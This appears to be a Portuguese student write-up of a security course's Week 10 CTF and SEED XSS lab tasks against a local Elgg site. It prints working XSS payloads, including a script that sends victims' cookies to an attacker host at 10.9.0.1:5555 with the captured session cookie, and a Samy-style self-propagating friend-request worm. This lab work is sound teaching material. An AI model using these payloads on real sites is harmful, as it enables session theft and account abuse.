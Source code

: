 # CTF 10 #

**Desafio 1**

Nesta tarefa, é-nos pedido uma 'justificação' para o administrador da aplicação web nos fornecer a
flag correta. Ora, esta justificação nada mais é do que código _javascript_ que usará a vulnerabilidade
em estudo na semana em questão, **_Cross-site scripting_**.

Após enviar a justificação, verificamos que existem dois botões, desativados: 
- um deles permite ao administrador marcar o pedido como lido;
- o outro é o botão que ele usará para nos fornecer a flag.

Precisamos então apenas de forjar um clique no segundo botão.
O código _HTML_ deste botão é o seguinte:

![código botão](Week%2010/ctf1%20button.png).

Para simular um click neste botão, usamos o seu _id_ e a função _click()_ de __javascript_, resultando no
seguinte código, que colocaremos na nossa justificação:
```javascript
<script> document.getElementById('giveflag').click(); </script>
```

Deste modo, quando o administrador analisar o nosso pedido, o botão que nos dá a flag é automaticamente
pressionado e obtemos a seguinte resposta por parte do administrador:

![flag](Week%2010/ctf1%20flag.png).

**Desafio 2** 

No segundo desafio da semana em questão, é-nos pedido para obter a flag a partir de uma vulnerabilidade já explorada 
anteriomente, o _buffer overflow_.

O objetivo prende-se em abrir uma shell no servidor correspondente, de modo a obter a flag.

Ao correr o ficheiro `program` com o utilitário `checksec` verificamos que esta possui as seguintes proteções:

![proteções](Week%2010/ctf2%20permissions.png)

Como não existe canário na stack, a nossa tarefa torna-se mais fácil e existe a possibilidade de, através de 
um _buffer overflow_, cumprir o nosso objetivo.

Correndo o programa, verificamos que o endereço do buffer é o seguinte:
`0xffa4de40`

# Tarefas da Semana #10 #

Uam vulnerabilidade do tipo _Cross-site scripting_ ou XSS é geralmente encontrada em aplicações web e faz com
que um atacante consiga injetar código malicioso no navegador da vítima.

**Task 1: Posting a Malicious Message to Display an Alert Window**

O objetivo desta tarefa é incorporar código _javascript_ no nosso perfil da aplicação web. Desta forma, quando
um outro utilizador consultar o nosso perfil, esse código será executado e uma mensagem de alerta aparcerá no
ecrã.

O código _javascript_ a incorporar é o seguinte:
```javascript
<script> alert ('XSS'); </script>
```

1. Editar o perfil de um utilizador (neste caso a Alice) de modo a incorporar o código malicioso.
![](Week%2010/task1%20edit.png)
2. Ao visitar o perfil do utilizador depois de editar a informação, deparámo-nos com a mensagem de alerta
esperada:
![](Week%2010/task1%20visit.png)

**Task 2: Posting a Malicious Message to Display Cookies**

Nesta tarefa, temos por objetivo incorporar código _javascript_ de modo a que, quando um utilizador visite
o nosso perfil, as _cookies_ desse utilizador serão mostradas na janela de alerta.

O código _javascript_ a incorporar é o seguinte:
```javascript
<script>alert(document.cookie);</script>
```

1. Editar o perfil de um utilizador (neste caso a Alice) de modo a incorporar o código malicioso.
![](Week%2010/task2%20edit.png)
2. Ao visitar o perfil do utilizador depois de editar a informação, deparámo-nos com a mensagem de alerta
esperada:
![](Week%2010/task2%20visit.png)

**Task 3: Stealing Cookies from the Victim’s Machine**

No ataque da tarefa anterior, apenas o utilizador conseguia consultar as suas cookies, e não o atacante.
Nesta tarefa, queremos que o código _javascript_ envie as cookies para nós (o atacante).

Para tal, o nosso código malicioso vai inserir uma tag `<img>` na qual o atributo `<src>` será a máquina
do atacante.

Quando o browser tenta carregar a imagem do URL dado no atributo `<src>`, decorre um pedido _HTTP GET_ enviado
à maquina do atacante. O código abaixo, envia as cookies para a porta _5555_.

```javascript
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');
</script>
```

1. Colocar um _listener_ na porta _5555_, de modo a obter as _cookies_ do utilizador.
```shell
[01/08/22]seed@VM:~/Week10$ nc -lknv 5555
Listening on 0.0.0.0 5555
```
2.Editar o perfil de um utilizador (neste caso a Alice) de modo a incorporar o código malicioso.
![](Week%2010/task3%20edit.png)
3.Ao visitar o perfil do utilizador depois de editar a informação, obtemos as cookies do utilizador que está
a visitar o perfil vulnerável:
```shell
[01/08/22]seed@VM:~/Week10$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 57010
GET /?c=Elgg%3Ddj765kt3mifr2ale8vg3arpj99 HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
```

**Task 4: Becoming the Victim’s Friend**

Nesta tarefa vamos por em prática um ataque similar àquele que o _MySpace_ sofreu em 2005 (_Samy Worm_).

Vamos escrever um _worm_ XSS de modo a que qualquer user que visite o perfil da Samy, a adicione como amiga.

Necessitámos de código malicioso _javascript_ que force um pedido HTTP diretamente do navegador da vítima, 
sem qualquer intervenção do atacante.

De modo a forçar um pedido da amizade por parte da vítima, primeiro temos que perceber como é que tal é feito,
de forma legítima pelo website. Deste modo, é possível escrever um programa _javascript_ que envie o mesmo 
pedido HTTP. Em baixo encontra-se o código que permite completar a tarefa:

```javascript
<script 
    type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // 1
        var token="&__elgg_token="+elgg.security.token.__elgg_token; // 2 
        
        //Construct the HTTP request to add Samy as a friend.
        var sendurl=...; //FILL IN
        
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```
O código acima é colocado no perfil da Samy, na secção _About me_ . Esta secção permite dois modos de edição:
- Modo editor (por defeito)
- Modo texto

O modo editor adiciona código HTML extra ao texto inserido no campo. Uma vez que não queremos isto, deveremos
habilitar o modo texto antes de inserir o código _javascript_.

1. Visitar o perfil da Samy, a partir de um outro utilizador de modo a consultar o URL que permite adiconar 
a Samy como amiga e copiar esse link.

![](Week%2010/task4%20copy.png)

Url copiado : 
```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641657155&__elgg_token=o7lnmOZwwTicyb0reWqiyQ
```

Deste modo, o código a inserir no campo da Samy é o seguinte: 
```javascript
<script 
    type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // 1
        var token="&__elgg_token="+elgg.security.token.__elgg_token; // 2 
        
        //Construct the HTTP request to add Samy as a friend.
        var sendurl= "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;


    //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

2. Fazer _login_ no perfil da Sam e inserir na secção _About me_ o código malicioso em questão:
![](Week%2010/task4%20edit.png)

3. Fazer _login_ com outro utilizador, e verificar que o nosso _worm_ foi criado com sucesso:

![](Week%2010/task4%20worm.mp4)

[Link to video](Week%2010/task4%20worm.mp4)
